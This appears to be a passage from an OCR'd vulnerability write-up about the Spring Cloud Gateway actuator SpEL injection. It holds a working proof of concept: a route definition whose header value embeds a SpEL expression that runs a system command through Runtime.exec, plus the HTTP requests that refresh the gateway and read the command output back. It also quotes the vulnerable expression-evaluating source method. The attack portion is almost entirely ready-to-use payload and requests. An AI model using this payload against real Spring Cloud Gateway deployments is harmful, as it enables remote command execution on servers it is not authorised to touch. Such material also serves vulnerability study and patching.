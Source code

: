 ```
Content-Type: application/json
Content-Length: 329

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```
```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
```
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
Factor: 
```
ShortcutConfigurable
static Object getValue(SpelExpressionParser parser, BeanFactory beanFactory, String entryValue) {
    String rawValue = entryValue;
    if (entryValue != null) {
        rawValue = entryValue.trim();
    }

    Object value;
    if (rawValue != null && rawValue.startsWith("#{") && entryValue.endsWith("}")) {
        StandardEvaluationContext context = new StandardEvaluationContext();
        context.setBeanResolver(new BeanFactoryResolver(beanFactory));
        Expression expression = parser.parseExpression(entryValue, new TemplateParserContext());
        value = expression.getValue(context);
    } else {
        value = entryValue;
    }

    return value;
}
```
### （3）Spring Data Commons